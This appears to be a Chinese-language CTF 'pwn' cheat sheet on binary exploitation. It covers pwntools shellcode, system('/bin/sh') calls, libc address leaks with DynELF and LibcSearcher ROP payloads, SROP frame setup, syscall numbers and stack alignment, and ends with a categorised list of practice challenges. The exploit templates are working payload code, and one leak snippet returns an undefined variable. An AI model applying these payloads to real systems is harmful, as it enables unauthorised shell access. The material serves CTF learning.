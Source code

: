 # PWN题技巧总结

## 0x001-获取系统权限方式

### 编写shellcode

使用pwntools生成shellcode

```
context(arch='amd64', os='linux')
shellcode = asm(shellcraft.sh())
```

```
context(arch='i386', os='linux')
shellcode = asm(shellcraft.sh())
```

### 执行命令获取系统权限

1. system("/bin/sh")
2. system("sh")
3. system("$0")
4. execve("/bin/sh", 0, 0) # syscall rax=59

## 0x002-敏感函数

|  敏感函数  |  结束标志  |
|  :----:  | :----:  |
|  printf  |  \x00  |
|  scanf  |    |
|  puts  |    |
|  gets  |  \x0A  |
|  read  |    |
|  write  |    |
|  strcpy  |    |
|  strcmp  |  \x00  |
|  strlen  |  \x00  |

## 0x003-泄露libc地址

### DynELF

```
def leak(addr):
    payload = b"A" * 140 + p32(write_plt) + p32(main_addr) + p32(1) + p32(addr) + p32(4)
    p.sendline(payload)
    result_addr = p.recv(4)
    return return_addr

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
```

### LibcSearcher

```
payload = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)
p.sendline(payload)
gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))
libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")
```

在使用LibcSearcher时，如果出现这种状况：

![](1.png)

则需要重新下载libc库。

安装步骤如下：

1. 进入LibcSearcher的安装目录中，执行命令删除libc-database目录
   ```
   rm -rf libc-database
   ```
2. 重新下载libc-database文件夹
   ```
   git clone https://github.com/niklasb/libc-database 
   或
   git clone git://github.com/niklasb/libc-database
   ```
3. 进入libc-database目录中，执行命令
   ```
   ./git ubuntu
   ```
4. 等待安装完成即可

## 0x004-构造SROP

```
sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr
```

https://www.wangan.com/docs/1081

## 0x005-syscall和int 0x80

系统调用常见函数(64位系统)

|  系统调用号  |  函数  |
|  :----:  | :----:  |
|  0  |  read  |
|  1  |  write  |
|  15  |  rt_sigreturn  |
|  59  |  execve  |

https://blog.csdn.net/sinat_26227857/article/details/44244433

## 0x006-栈对齐

在ubuntu18以上的版本，64位程序中如果调用system("/bin/sh")，则需要考虑堆栈平衡问题。

因为在ubuntu18以上的版本，64位的程序中调用system函数时，有如下指令

![](2.png)

> movaps : 该指令必须16字节对齐，说明 **$rsp+0x40** 处的地址值必须是16的倍数

那么就需要在调用call system时，保证 **$rsp+0x40** 处的地址值是16的倍数，下图是没对齐的情况

![](3.png)

## 0x007-常用汇编指令

|  汇编语言  |  机器码  |  含义  |
|  :----:  | :----:  | :----:  |
|  leave  |  0xc9  | mov esp, ebp; <br> pop ebp; |

## 0x008-题型归类

### 格式化字符串

|  题目  |  类型  |
|  :----:  | :----:  |
|  [第五空间2019 决赛]PWN5  |  格式化字符串漏洞  |

### 栈溢出

|  题目  |  类型  |
|  :----:  | :----:  |
|  [OGeek2019]babyrop  |  泄漏libc  |
|  ciscn_2019_c_1  |  泄漏libc  |
|  ciscn_2019_es_2  |  栈迁移  |
|  ciscn_2019_s_3  |  SROP  |
|  get_started_3dsctf_2016  |  读取文件  |
|  jarvisoj_level2  |  程序内调用  |
|  not_the_same_3dsctf_2016  |  读取文件  |
|  pwn2_sctf_2016  |  整数溢出  |
